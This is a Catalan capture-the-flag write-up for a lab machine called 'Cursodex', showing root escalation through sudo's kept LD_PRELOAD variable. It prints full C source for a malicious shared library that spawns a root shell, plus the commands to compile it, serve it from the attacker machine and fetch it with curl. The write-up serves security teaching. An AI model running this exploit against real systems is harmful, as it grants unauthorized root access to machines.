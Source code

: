 ```bash
www-data@cursodex:/tmp$ su agent
Password: 
agent@cursodex:/tmp$ sudo -l
Matching Defaults entries for agent on cursodex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

Runas and Command-specific defaults for agent:
    Defaults!/bin/date env_keep+=LD_PRELOAD

User agent may run the following commands on cursodex:
    (ALL) PASSWD: /bin/date
```

Podem executar el binari `date` com a usuari `root`. Segons GTFOBins, això permet la lectura privilegiada de fitxers, però en aquest cas no ens serà útil. Ens hem de fixar en l'opció `env_keep+=LD_PRELOAD`, que ens permetrà injectar una biblioteca maliciosa.

Creem i compilem una biblioteca a la nostra màquina atacant, i després aixequem un servei HTTP per compartir el binari.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ cat exploit.c                        
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ gcc -shared -fPIC -o exploit.so exploit.c
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ python3 -m http.server 80
```

A la nostra màquina víctima obtenim el binari `exploit.so` amb `curl` i el guardem a `/tmp`.

```bash
curl -o /tmp/exploit.so http://192.168.1.181/exploit.so
```

i executem `date` amb `sudo`, utilitzant la nostra biblioteca mitjançant la variable d'entorn `LD_PRELOAD`.

```bash
sudo LD_PRELOAD=/tmp/exploit.so /bin/date
```

Obtenim una shell com a usuari `root` i podem llegir la flag:

```bash
root@cursodex:/tmp# ls /root
root?????.txt
root@cursodex:/tmp# cat /root/root?????.txt 
8?????????????????????????????
```

Espero que us hagi agradat o que n’hagueu après alguna cosa.
